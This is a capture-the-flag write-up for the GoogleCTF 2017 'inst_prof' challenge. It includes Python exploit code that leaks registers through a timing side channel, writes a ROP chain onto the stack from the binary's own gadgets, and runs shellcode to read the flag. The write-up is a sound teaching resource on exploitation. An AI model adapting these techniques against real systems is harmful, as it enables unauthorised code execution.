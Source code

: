 ```yaml
---
title: "GoogleCTF 2017 - Pwning - inst_prof"
description: "A challenge accepting 4 bytes of shellcode that will be benchmarked by the service"
---
```


# inst_prof

This challenge accepts 4 Bytes of Instructions and executes them in a tight loop, returning the runtime.
The do_test function is called in a while-true loop.
The Pseudocode looks as follows:

```c
void read_inst(void *page)
{
    read_n(page, 4);
}

void do_test()
{
    void *page = alloc_page()
    read_inst(page); //Insert 4 Bytes from User into a Template
    make_page_executable(page)

    r12 = rdtsc;
    ((void (*)())page)();
    rdx = rdtsc - r12;

    write(1, rdx, 8);
    free_page(page);
}
```

The disassembly of the Template:

```assembly
mv ecx, 0x1000
your_code:
<your 4 bytes>
sub ecx, 1
jne your_code
ret
```

## Leaking Stuff
First of all, we noticed, that the registers r14 and r15 are not altered between two iterations.
This allows preserving minimal state between two executions.
To leak registers, we stored the value to leak in r15 and extracted the value bit by bit.

```python
def leak_r15(lowest_bit=0, highest_bit=48):
    #skip not needed bits
    for n_bit in range(0, lowest_bit):
        execute("shr r15,1; ret")

    #leak
    leak = 0
    for n_bit in range(lowest_bit, highest_bit+1):
        #prepare bit mask
        execute("xor r14, r14")
        execute("inc r14; ret")
        execute("and r14, r15")

        #leak
        t = execute("sub r12, r14")
        if t > thres:
            leak |= 1 << n_bit

        #shfit r15
        execute("shr r15,1; ret")

    return leak
```

As r12 holds the start timestamp, the returned runtime can be artificially increased depending on r14.
The time difference between the bits 0 and 1 is roughly factor 2.
Even though, as we only use one attempt to read a bit (without averaging) to reduce the total runtime, this attempt of leaking fails sometimes.


## Writing to Stack
To prepare a ROP chain, we need to write arbitrary data to Stack.
The address we want to write to is stored in r15.
```python
def write_buff(what):
    for c in what:
        execute("movb [r15],0x%02x" % ord(c))
        execute("inc r15; ret")
```

## Exploit
The binary already contains lots of nice gadgets, such as alloc_page, read_n and make_page executable.
First, we have to leak the address of the old Page and of course the binary base address for the ROP gadgets.

```python
execute("pop r15; push r15")
binary_base = leak_r15(lowest_bit=12,highest_bit=40) | 0x550000000000

execute("mov r15, rdi")
page_old = leak_r15(lowest_bit=12,highest_bit=48)
```

Then we prepare the ROP chain.
We used the gadgets to allocate a new page, read arbitrary data and execute it.
rsi already contains 0x1000, the size of one page, what was useful for alloc_page and read_n.
As the behavior for mmap is deterministic, we can compute the address of the newly allocated page from the previously allocated one.

```python
alloc_page = binary_base + 0x9f0
pop_rdi = binary_base + 0xbc3
read_n = binary_base + 0xa80
make_page_executable = binary_base + 0xa20
pop_rbx_r12_rbp = binary_base + 0xaab
call_rbx = binary_base + 0xb16

ropchain  = struct.pack("<Q", alloc_page)
ropchain += struct.pack("<Q", pop_rdi)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", read_n)
ropchain += struct.pack("<Q", pop_rdi)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", make_page_executable)
ropchain += struct.pack("<Q", pop_rbx_r12_rbp)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", call_rbx)
```

To write the ROP chain without crashing the program, we used rsp+0x1000 as a target and placed it in front of the mains stack frame.

```python
execute("mov %r15, %rsp; ret")
execute("inc %r15")
write_buff(ropchain)
```

Then we write the address of the ROP chain to rsp to trigger the execution.
```python
execute("mov r15, rsp; ret")
execute("inc r15")
CODE = asm("mov rsp,r15; ret").ljust(4, asm("nop"))
con.send(CODE)
con.send(shellcode)
con.send("cat flag.txt\n")
```

After some attempts, the Flag shows up:
```
CTF{0v3r_4ND_0v3r_4ND_0v3r_4ND_0v3r}
```

# Files
- [Binary](inst_prof)
- [Patched binary](patched_inst_prof)
- [Exploit](exploit.py)
